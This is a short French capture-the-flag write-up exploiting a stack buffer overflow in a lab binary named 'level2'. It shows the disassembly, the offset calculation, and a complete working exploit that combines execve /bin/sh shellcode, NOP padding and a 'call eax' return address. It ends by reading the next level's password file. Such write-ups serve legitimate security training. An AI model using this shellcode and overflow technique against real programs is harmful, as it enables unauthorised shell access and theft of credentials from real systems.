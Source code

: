 ```
objdump -M intel -d level2
```

Dans le main on voit un appel à une fonction "p", regardons ce qu'elle fait.
Il semble que comme precedemment elle utilise la fonction gets.
Essayons de la faire segfalt comme precedemment

```
echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" > /tmp/test
gdb level2
r < /tmp/test

Program received signal SIGSEGV, Segmentation fault.
0x37634136
```

Faisons le meme travail avec le meme site web pour calculer l'offset.
Offset = 80

L'ancien trick ne marche pas.
Après recherche, il semble que nous puissions tout de même utiliser une faille.

On remarque un call à eax. Eax appelle la fonction qu'elle pointe.
Il faut appeller une fonction à l'aide ce call afin d'obtenir notre résultat.

```
objdump -d level2 | grep call
80484cf:	ff d0                	call   *%eax
```

Further documentation here:
https://dhavalkapil.com/blogs/Shellcode-Injection/
La taille de l'offset est 80
Notre script en fait 25:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Donc nous ajoutons 80 - 25 = 55 NOP afin de completer l'espace "vide" (\x90)

```
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*(55) + "\xcf\x84\x04\x08"' > /tmp/test
cat /tmp/test - | ./level2
cat /home/user/level3/.pass
```

Nous avons donc réussi !
